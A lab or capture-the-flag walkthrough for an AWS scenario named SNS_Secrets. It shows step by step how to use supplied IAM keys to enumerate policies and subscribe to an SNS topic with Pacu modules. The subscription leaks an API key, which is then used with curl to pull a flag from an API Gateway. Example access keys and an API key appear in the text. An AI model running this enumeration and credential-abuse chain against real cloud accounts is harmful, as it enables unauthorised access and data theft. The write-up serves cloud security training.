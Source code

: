 # SNS_Secrets Walkthrough

## Summary

In this scenario, you are provided with AWS credentials. You need to enumerate permissions and discover you can list and subscribe to SNS topics. You then use Pacu's new modules "sns__enum" and "sns__subscribe" to subscribe to the topic. You will receive an email from the topic with an API Key as a debug message. Then, use the AWS CLI to enumerate the API Gateways to find the API Gateway path, method, stage, and resource. Finally, do a curl request with the API key to get the final flag.

## Detailed Walkthrough

### Configuring the AWS Keys

After launching the scenario, you will be provided with an Access Key ID and Secret Access Key for an IAM role. These allow you to interact with the AWS account from the IAM role using the CLI (Command Line Interface). You can set up an IAM profile with this command:

```bash
aws configure --profile sns-secrets
```

You will then be prompted for the Access Key ID, Secret, and Region. Provide the keys you received after launching the scenario. Below is an example (your keys will be different.)  

```bash
AWS Access Key ID: AKIA2GIZ2CSU6NO2YIXU
AWS Secret Access Key: SYpZBG++MXkmdvmUL614A4XAAs9L88QRrMOBhqZ9
Default region name: us-east-1
Default output format [None]:
```

Finally, you can confirm access by running the AWS equivalent of “whoami”: 

```bash
aws sts get-caller-identity --profile sns-secrets 
```

This should return the UserId, Account, and ARN for the role to verify you have access. 

### Discovering Permissions

Now that we have access to an IAM user in the AWS environment, we need to figure out what permissions we have. This can be done using the AWS CLI. First, we need to see what policies are connected to our user: 
(Note: The username can be found in the output of the “aws sts get-caller-identity” command we ran previously). 

```bash
aws iam list-user-policies --user-name [UserName] --profile sns-secrets
```

This command will return the policy name for our account. We can further enumerate this policy: 

```bash
aws iam get-user-policy --user-name [UserName] --policy-name [PolicyName] --profile sns-secrets 
```

The output of this command provides us with our policy; note our IAM User has permissions related to SNS, IAM, and API Gateway. 

### Subscribing to SNS

Amazon Simple Notification Service (SNS) is a managed messaging service that enables you to send notifications to subscribers using various methods like email, SMS, and HTTP. It's often used for alerting, sending updates, and integrating different systems by delivering messages reliably and quickly. It's important to limit SNS access to specific users to ensure the security and integrity of your messaging system. Unrestricted access could lead to unauthorized users sending spam, triggering unnecessary alerts, or accessing sensitive information.

We can enumerate SNS with Pacu. Pacu is an open-source AWS exploitation framework, designed for offensive security testing against cloud environments. Instructions for installing Pacu are out-of-scope for this walkthrough but you can refer to the [official Pacu documentation on Github](https://github.com/RhinoSecurityLabs/pacu). Once Pacu is installed and a session is configured, you can import the profile you configured: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > import_keys sns-secrets
```

There are two modules for interacting with SNS; you can find these by searching within Pacu: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > search sns

[Category: ENUM]

    List and describe Simple Notification Service topics

  sns__enum

[Category: LATERAL_MOVE]

    Subscribe to a Simple Notification Service (SNS) topic

  sns__subscribe
```

Let’s begin with the “sns__enum” module. We can get more information with this command:

```bash
Pacu (sns-secrets:imported-sns-secrets) > help sns__enum
```

The module will attempt to list and gather information from Simple Notification Service topics. Let’s run it and see if it identifies an SNS topic we can access. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > run sns__enum --region us-east-1
```

We can see the topic by typing “data” to access the Pacu database for our session. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > data
```

Now that we have the full ARN of the SNS Topic, let’s check out the sns__subscribe module: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > help sns__subscribe
```

This module will attempt to subscribe to a topic based on the ARN via an email address. We need to provide it with the topic and an email. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > run sns__subscribe --topics [TopicARN] --email [Email Address]
```

After subscribing, you will need to go to your email and confirm the subscription: 

![Confirm Subscription](confirm-subscription.png)

### Accessing the API Gateway

After subscribing to the topic, you will receive an SNS Message that leaks an API Key for a API Gateway. 

![Leaked API Key](leaked-apikey.png)

Now that we have an API Key for an API Gateway, we need to identify the full URL to access the gateway. First, let’s try and retrieve basic information on the API: 

```bash
aws apigateway get-rest-apis --profile sns-secrets --region us-east-1
```

This provides us with the ID of the API Gateway. Using this ID we can get the stages and resources: 

```bash
aws apigateway get-stages --rest-api-id [API ID] --profile sns-secrets --region us-east-1
aws apigateway get-resources --rest-api-id [API ID] --profile sns-secrets --region us-east-1
```

These commands provide us with the following information:

- Stage Name
- Resource Path

![API Gateway Information](apigateway-info.png)

This information allows us to retrieve the full URL to the API Gateway:

```bash
https://[API-ID].execute-api.us-east-1.amazonaws.com/[stageName]/[resourcePath]
```

Finally, we can use a CURL request with the API Key to retrieve the final flag: 

```bash
curl -X GET \
  'https://[API-ID].execute-api.us-east-1.amazonaws.com/[stageName]/[resourcePath]' \
  -H 'x-api-key: 45a3da610dc64703b10e273a4db135bf'
```

![Final Flag](final-flag.png)
